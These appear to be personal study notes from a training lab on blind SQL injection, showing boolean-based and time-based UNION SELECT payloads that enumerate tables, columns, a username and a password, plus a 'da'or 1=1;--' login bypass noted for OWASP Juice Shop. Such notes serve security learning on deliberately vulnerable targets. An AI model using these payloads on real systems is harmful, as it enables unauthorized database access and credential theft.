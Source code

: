 admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

Again you'll need to cycle through letters, numbers and characters until you find a match. As you're looking for multiple results, you'll have to add this to your payload each time you find a new column name, so you don't keep discovering the same one. For example, once you've found the column named id, you'll append that to your original payload (as seen below).

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

Repeating this process three times will enable you to discover the columns id, username and password. Which now you can use to query the users table for login credentials. First, you'll need to discover a valid username which you can use the payload below:

admin123' UNION SELECT 1,2,3 from users where username like 'a%

Which, once you've cycled through all the characters, you will confirm the existence of the username admin. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:

admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%

Cycling through all the characters, you'll discover the password is 3845.

Find a boolean-like api that takes parameters. Ensure the endpoint answers with false (no record from db returned). Now change the parameters so that your question results in a positive record from the database.

admin123' union select 1,2,3 where database() like 'sqli_three%';-- ... over ... admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';-- ... till ... admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

Every little step must be sent to seperately which is very tidious, but still effective.

This way a user can be enumerated and his password can be found (wordlists).

Timebased Blind SQLi

In case you don't even have a value-based indicator, you can utilize the time delay of a query. This is done by actually doing quite the same as for the Boolean Blind SQLi but you use sleep(1) to delay the result. The sleep(1) is only executed if the result of the query has an record because sleep(1) is like a function that is executed on the column values.

admin123' UNION SELECT SLEEP(1),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'users%';--

admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;

Juice-shop

Saturday, July 30, 2022

11:30 PM

SQLI

Nhập login:

da'or 1=1;--
